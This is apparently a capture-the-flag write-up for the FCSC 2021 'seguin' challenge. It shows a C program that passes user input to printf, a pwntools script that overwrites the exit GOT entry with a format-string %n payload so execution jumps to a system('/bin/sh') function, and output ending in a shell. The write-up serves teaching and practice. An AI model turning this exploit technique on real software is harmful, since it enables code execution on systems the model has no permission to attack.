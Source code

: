 ```yaml
---
title: Overwrite GOT function address
description: Overwriting a function address using a format string attack.
---
```


# Format string - Overwrite GOT function address

## Summary

Two ways to write an address using `%n` :

1. Print millions of charcaters.
2. Overwrite lower and higher 2 bytes seperatly (efficient way).

## Challenge

### Statement

!!! note ""
    Challenge : `seguin` from FCSC 2021.

### Source code

```c linenums="1"

void main() {
  char local_30 [32];

  puts("************************************");
  puts("** Service d'adoption des bovidés **");
  puts("************************************");
  printf("Merci d\' indiquer le nom de l\'animal que vous etes venus chercher :\n>>> ");
  fflush(stdout);

  fgets(local_30, 32, stdin);
  printf("Vouz avez demandé ");
  printf(local_30);

  puts("Nous vous tiendrons au courant");
}


void chevre() {
  system("/bin/sh");
  return;
}
```

## Answer

The last `printf` function of `main()` is vulnerable to format string attack. Let's use `%n` to replace the address of `exit` to the address of `chevre`.

Source code (solve.py) :

```python
#!/usr/bin/env python3
from pwn import process, ELF, p32, log, context, fmtstr_payload


def send_line(proc, line):
    """ Send line to the process """
    if isinstance(line, str):
        line = line.encode()

    proc.sendlineafter(b">>> ", line)

    return proc.recvline().split(b"Vouz avez demand\xc3\xa9 ")[1].strip()


def find_offset():
    """ Find the correct offset in the stack """
    i = 0
    while True:
        with context.local(log_level="error"):
            proc = process(PROGRAM)
            data = send_line(proc, f"ABCD%{i}$x")
            proc.close()

        if b"ABCD44434241" == data:
            break

        i += 1
    return i


# Variables 
PROGRAM = "./seguin"
elf = ELF(PROGRAM)
chevre = elf.symbols["chevre"]
exi = elf.got["exit"]

offset = find_offset()
log.info(f"Offset : n°{offset}")

# Setup payload
## First way
"""
payload = p32(exi) # Address to write
payload += f"%1${chevre}x".encode() # Print 'n' char with 'n' = the address of 'chevre' (int)
payload += f"%{offset}$n".encode() # Write on puts (offset in the stack) the number of printed char
"""

## Second way
# 0x80491b2 <chevre>:     0x53e58955
payload = p32(exi)
payload += p32(exi+2)

# 0000 91b2
payload += f"%{0x91b2-len(payload)}x".encode()
payload += f"%{offset}$n".encode()

# 0001 0804
payload += f"%{0x10804-0x91b2}x".encode()
payload += f"%{offset+1}$n".encode()

proc = process(PROGRAM)
proc.sendlineafter(b">>> ", payload)
proc.interactive()
```

Execution :

```
$ python3 solve.py
[*] '/home/.../Seguin/seguin'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Offset : n°4
[+] Starting local process './seguin': pid 5774
[*] Switching to interactive mode
Vouz avez demandé `\x90\x04b\x90\x04
[...]
        f7f33540
Nous vous tiendrons au courant
$ id
uid=1000(xanhacks) gid=1000(xanhacks) groups=1000(xanhacks),995(audio),998(wheel)
```